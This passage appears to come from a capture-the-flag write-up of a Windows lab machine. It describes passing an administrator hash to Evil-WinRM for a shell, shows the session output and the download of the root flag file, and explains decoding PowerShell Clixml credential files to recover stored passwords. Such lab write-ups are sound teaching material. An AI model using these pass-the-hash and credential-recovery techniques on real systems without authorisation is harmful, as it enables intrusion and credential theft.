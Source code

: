 * and we have administrators hash.
* but instead of cracking we will directly pass it and get a shell using Evil-WinRm.

![](2025-05-31-razorblack-15.png)

* and we are in.
* from here we collect root flag.

```bash
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/21/2021   9:45 AM                3D Objects
d-r---        5/21/2021   9:45 AM                Contacts
d-r---        5/21/2021   9:45 AM                Desktop
d-r---        5/21/2021   9:45 AM                Documents
d-r---        5/21/2021   9:45 AM                Downloads
d-r---        5/21/2021   9:45 AM                Favorites
d-r---        5/21/2021   9:45 AM                Links
d-r---        5/21/2021   9:45 AM                Music
d-r---        5/21/2021   9:45 AM                Pictures
d-r---        5/21/2021   9:45 AM                Saved Games
d-r---        5/21/2021   9:45 AM                Searches
d-r---        5/21/2021   9:45 AM                Videos
-a----        2/25/2021   1:08 PM            290 cookie.json
-a----        2/25/2021   1:12 PM           2512 root.xml


*Evil-WinRM* PS C:\Users\Administrator> download root.xml
                                        
Info: Downloading C:\Users\Administrator\root.xml to root.xml
                                        
Info: Download successful!
```

## Flags

* for this we see none of the users have flags in their Desktop directory.
* but instead they have a .xml file in there home directory.

### **lvetrova**

* in lvetrova home directory we find a .xml file which seems to have a username and password.
* researching it found that it a powershell technique to save user credentials (username and password) to a file.
* but this are not stored in clear text.
* [https://stackoverflow.com/questions/40029235/save-pscredential-in-the-file](https://stackoverflow.com/questions/40029235/save-pscredential-in-the-file)
* [https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8](https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8)
* to see this creds we can use powershell’s inbuilt module `Clixml`.
* which can be use to export credential xml file into memory and then read it.
* **NOTE: we need to be the as lvetrova user to do this.**
